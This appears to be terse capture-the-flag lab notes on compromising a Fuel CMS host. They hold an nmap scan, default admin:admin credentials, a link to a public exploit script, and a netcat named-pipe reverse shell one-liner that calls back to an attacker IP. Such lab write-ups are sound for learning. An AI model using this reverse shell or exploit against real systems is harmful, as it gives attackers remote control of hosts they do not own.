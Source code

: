 **Tristan Gomez**

nmap
```
└─$ sudo nmap -Pn 10.10.202.5
[sudo] password for gomez22: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-20 12:02 PDT
Nmap scan report for 10.10.202.5
Host is up (0.19s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 49.31 seconds
```

`admin:admin`
`https://github.com/AssassinUKG/fuleCMS/blob/main/fuelCMS.py`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.248.108 1111 >/tmp/f`

